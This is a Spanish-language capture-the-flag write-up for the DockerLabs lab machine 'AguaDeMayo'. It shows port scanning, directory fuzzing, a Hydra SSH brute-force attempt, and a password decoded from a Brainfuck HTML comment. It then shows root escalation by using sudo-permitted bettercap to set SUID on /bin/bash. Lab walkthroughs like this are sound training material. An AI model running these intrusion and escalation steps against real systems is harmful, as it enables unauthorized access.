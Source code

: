 # 🧪 Informe de Pentesting – Máquina *AguaDeMayo*

* **Nombre**: AguaDeMayo
* **Nivel**: Fácil
* **Objetivo**: Obtener acceso a la máquina como root a través de explotación de servicios y técnicas de escalada de privilegios.
* **Logo**:
  
![Logo](Imagenes/Logo.png)

---

## 🐳 Despliegue de la Máquina

Descargamos la máquina desde la página oficial de DockerLabs y procedemos a descomprimirla:

```bash
unzip aguademayo.zip
```

Luego, la desplegamos utilizando el script proporcionado:

```bash
sudo bash auto_deploy.sh aguademayo.tar
```

Imagen del despliegue exitoso:
![Despliegue](Imagenes/Despliegue.jpeg)

---

## 📡 Verificación de Conectividad

Verificamos que la máquina esté activa con un simple ping:

```bash
ping -c4 172.17.0.2
```

Resultado del ping:
![Ping](Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

Utilizamos Nmap para descubrir todos los puertos abiertos en la máquina:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

El resultado revela que los puertos **22 (SSH)** y **80 (HTTP)** están abiertos.
![Puertos](Imagenes/Puertos.jpeg)

---

## 🧪 Detección de Servicios

Con mi script personalizado `extractPorts` extraigo automáticamente los puertos abiertos y la IP, luego realizo un escaneo más profundo:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

Esto nos permite obtener información detallada sobre los servicios y versiones activas.
![Servicios](Imagenes/Servicios.jpeg)

---

## 🌐 Enumeración Web

Accediendo al puerto 80 en el navegador, se muestra la página por defecto de Apache2:

![Página Web](Imagenes/Pagina.jpeg)

Realizamos fuzzing con `gobuster` para descubrir directorios ocultos:

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

Se descubre el directorio `/images`:
![Gobuster](Imagenes/Gobuster.jpeg)

Al acceder a `http://172.17.0.2/images/`, encontramos un archivo JPG llamado `agua_ssh.jpg`:
![Directorio](Imagenes/Directorio.jpeg)

---

## 🧾 Análisis de Metadatos

Usamos `exiftool` para analizar los metadatos del archivo JPG:

```bash
exiftool agua_ssh.jpg
```

No se encuentra información útil. También se realiza otro escaneo con Gobuster, pero no se identifican más recursos relevantes.
![Imagen](Imagenes/Imagen.jpeg)

---

## 🔐 Intento de Fuerza Bruta SSH

Dado el nombre de la imagen `agua_ssh.jpg`, se prueba con el usuario `agua` utilizando Hydra para encontrar la contraseña, sin éxito:

```bash
hydra -l agua -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

---

## 🧠 Análisis del Código Fuente

Revisando el código fuente HTML de la página principal, encontramos un comentario sospechoso:

```html
<!-- +[----->+++<]>+.+++++++.--------.+++.------.--------. -->
```

Este es código en **Brainfuck**, un lenguaje de programación esotérico. Lo traducimos en línea y obtenemos:

```
bebeaguaqueessano
```

Este resultado parece ser una contraseña.

![Decodificación](Imagenes/Codificar.jpeg)

---

## 🔑 Acceso SSH

Con las credenciales:

* **Usuario**: agua
* **Contraseña**: bebeaguaqueessano

Accedemos exitosamente al servicio SSH:

```bash
ssh agua@172.17.0.2
```

![Acceso SSH](Imagenes/SSh.jpeg)

---

## 🚀 Escalada de Privilegios

Usamos `sudo -l` para verificar los privilegios del usuario `agua`:

```bash
sudo -l
```

Descubrimos que puede ejecutar `bettercap` como root sin contraseña. Aprovechamos esto para habilitar el bit SUID en `/bin/bash`:

1. Iniciamos bettercap como root:

   ```bash
   sudo bettercap
   ```

2. Dentro de bettercap ejecutamos:

   ```bash
   !/usr/bin/chmod u+s /bin/bash
   ```

3. Salimos de bettercap y ejecutamos:

   ```bash
   /bin/bash -p
   ```

Esto nos proporciona una shell como root, gracias al bit SUID activado.

![Root Access](Imagenes/Root.jpeg)

---

## ✅ Conclusión

La máquina *AguaDeMayo* representa un excelente escenario para practicar técnicas básicas de:

* Enumeración web
* Análisis de metadatos
* Reconocimiento de lenguajes ocultos (Brainfuck)
* Acceso a través de SSH
* Escalada de privilegios con binarios permitidos como sudo

Gracias al acceso permitido a `bettercap` y la posibilidad de establecer permisos SUID, se logra obtener una shell como root, completando así el reto.
